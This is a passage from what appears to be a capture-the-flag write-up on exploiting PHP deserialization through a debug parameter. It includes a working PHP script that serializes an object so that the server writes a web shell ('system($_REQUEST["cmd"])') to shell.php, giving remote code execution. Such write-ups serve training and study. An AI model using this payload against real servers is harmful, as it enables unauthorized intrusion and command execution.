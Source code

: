 ![](/assets/images/thm/debug/5.png)

We can provide serialized input via debug parameter. If we modify the "public $form_file = 'message.txt';" with something like shell.php, and the "public $message = '';" with some php code, serialize it and deserialize it via debug, we can write a webshell on the server and get code execution.

So I've created a little php script which will serialize the first part of the script.  

```php
class FormSubmit {

public $form_file = 'message.txt';
public $message = '';
```

We're going to modify form_file and message with our webshell

The final script we're going to use in order to exploit the deserialization vulnerability is this one.

```php
<?php

class FormSubmit {
  public $form_file = 'shell.php';
  public $message = '<?php system($_REQUEST["cmd"]); ?>';
}

$rce = new FormSubmit;
echo serialize($rce);

?>
```
